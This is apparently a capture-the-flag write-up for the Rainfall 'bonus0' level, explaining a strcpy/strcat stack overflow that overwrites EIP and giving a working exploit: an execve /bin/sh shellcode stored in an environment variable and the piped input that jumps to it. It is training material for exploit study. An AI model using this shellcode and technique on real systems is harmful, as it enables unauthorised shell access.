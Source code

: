 # Rainfall - Bonus 0

## Executable Analyse

```assembly
(gdb) info function

0x080484b4  p
0x0804851e  pp
0x080485a4  main
```
There are 3 functions in this program: main p and pp .  
The main function calls pp to initialize variable `c`, an array of 54 characters.

The p function is called twice by pp and initalizes two 20-character arrays.  
Then c is initialized with the 20-character arrays using `strcpy` and concatenating with `strcat`.

## Environment Variable Shellcode

The p function is vulnerable because the initialized array is not null if the buffer contains more than 20 characters.  
Overflow can be checked using two 20-character entries :  

```bash
Starting program: /home/user/bonus0/bonus0 
 - 
AAAABBBBCCCCDDDDEEEE
 - 
FFFFGGGGHHHHIIIIJJJJ
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ��� FFFFGGGGHHHHIIIIJJJJ���

Program received signal SIGSEGV, Segmentation fault.
0x49484848 in ?? ()
```

The overflow works, EIP is overwritten and the program tries to call the address `0x49484848` (IJJJ)  

The program has no system call or execve, so we must use a shellcode to get the flag.    

We have no space to write the shellcode here, so we will use the environment:   

```bash
export SHELLCODE=$(python -c "print '\x90' * 30 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'")
```

We can print the address of our `SHELLCODE` in the environment using the function **getenv** :  
```bash
$> ./a.out
0xbffff8e8
```

```bash
(python -c 'print "AAAABBBBCCCCDDDDEEEE"' ; python -c 'print "FFFFGGGGHHHHII" + "\xbf\xff\xf8\xe8"[::-1] + "J"' ; cat ) | ./bonus0
```
